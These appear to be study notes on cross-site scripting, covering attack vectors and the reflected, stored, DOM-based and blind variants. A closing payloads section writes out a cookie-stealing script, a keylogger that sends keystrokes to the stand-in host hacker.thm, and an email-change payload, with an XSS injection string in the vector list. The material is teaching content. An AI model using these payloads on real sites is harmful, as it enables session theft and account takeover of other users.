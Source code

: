 
				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	

-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers


				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS
		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS
				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

-- Business Logic
<script>user.changeEmail('attacker@hacker.thm');</script>

-- polyglots
string of text which can escape attributes, tags and bypass filters all in one.

				Beef Framwork
